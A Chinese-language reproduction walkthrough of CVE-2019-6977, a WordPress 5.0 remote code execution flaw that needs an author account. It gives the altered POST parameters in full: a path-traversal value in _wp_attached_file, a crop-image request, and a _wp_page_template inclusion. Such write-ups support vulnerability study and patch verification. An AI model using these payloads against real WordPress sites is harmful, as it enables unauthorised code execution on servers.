





# （CVE-2019-6977）WordPress 5.0 RCE

> 原文：[http://book.iwonder.run/0day/Wordpress/19.html](http://book.iwonder.run/0day/Wordpress/19.html)

## 一、漏洞简介

漏洞条件：拥有一个 author 权限的账号

## 二、漏洞影响

影响包括 windows、linux、mac 在内的服务端，后端图片处理库为 gd/imagick 都受到影响，只不过利用难度有所差异。

其中，原文提到只影响 release 5.0.0 版，但现在官网上可以下载的 5.0.0 已经修复该漏洞。实际在 WordPress 5.1-alpha-44280 更新后未更新的 4.9.9~5.0.0 的 WordPress 都受到该漏洞影响。

## 三、复现过程

传图片



改信息



保留该数据包，并添加 POST

```
&meta_input[_wp_attached_file]=2019/02/2-4.jpg#/../../../../themes/twentynineteen/32.jpg 
```

触发需要的裁剪



裁剪


同理保留改数据包，并将 POST 改为下面的操作，其中 nonce 以及 id 不变

```
action=crop-image&_ajax_nonce=8c2f0c9e6b&id=74&cropDetails[x1]=10&cropDetails[y1]=10&cropDetails[width]=10&cropDetails[height]=10&cropDetails[dst_width]=100&cropDetails[dst_height]=100 
```

触发需要的裁剪



图片已经过去了



包含，我们选择上传一个 test.txt，然后再次修改信息，如前面

```
&meta_input[_wp_page_template]=cropped-32.jpg 
```


点击查看附件页面，如果图片被裁剪之后仍保留敏感代码，则命令执行成功。


## 四、参考链接

> [https://www.freebuf.com/vuls/196514.html](https://www.freebuf.com/vuls/196514.html)

